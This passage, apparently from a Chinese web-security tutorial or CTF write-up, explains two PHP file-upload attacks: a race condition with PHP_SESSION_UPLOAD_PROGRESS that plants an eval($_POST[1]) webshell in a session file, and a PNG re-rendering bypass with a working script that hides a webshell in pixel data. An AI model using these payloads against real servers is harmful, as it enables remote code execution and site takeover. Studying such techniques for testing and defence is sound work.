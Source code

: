 也就是对这个`URL`进行`POST`，然后表单里面注意有一项是`PHP_SESSION_UPLOAD_PROGRESS`即可。它的值便是我们可控的恶意代码。由于这两项配置：

```php
session.upload_progress.prefix = "upload_progress_"
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
```

所以`sess_ltfall`中将会包含这样一段恶意代码：

```php
upload_progress_<?php echo 123;eval($_POST[1]); ?>
```

我们在这个`HTML`中点击上传文件（任意上传一个文件都可以，这并不重要，因为重点是要上传文件触发这个机制），把这个包修改一下：

![image-20221016211739882](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210162117707.png)

其实只是加了一行`Cookie`，目的是让服务器生成`sess_ltfall`这个文件。

若`php.ini`中，`session.upload_progress.cleanup=Off`，则我们此时直接访问`upload/index.php`就已经利用成功了。

但这个配置默认为`On`，因此服务器会在上传结束后，删除`sess_ltfall`这个文件的内容（不会删除这个文件）。

因此，此时我们需要条件竞争，也就是一边一直发上面上传文件的数据包，一边一直带着恶意`payload`访问`upload/index.php`。我这里是用`Burp`实现的一直发这两个数据包。

然后，因为是多线程，所以总有一个时间点，在`sess_ltfall`文件内容还没有被删除的时候，就被我们访问到了。如图所示：

![image-20221016212352101](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210162123217.png)

## 图片二次渲染绕过

漏洞原理是，当我们上传文件后，网站会对图片进行二次处理（比如格式、尺寸）。图片的内容会被替换、更新，以将原有的图片生成新的图片以供显示。我们将恶意代码置入图片不会被处理的部分，这样假如我们能包含这个图片文件时即可利用。

这里放一个`png`格式的图片的脚本。

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */

?>
```
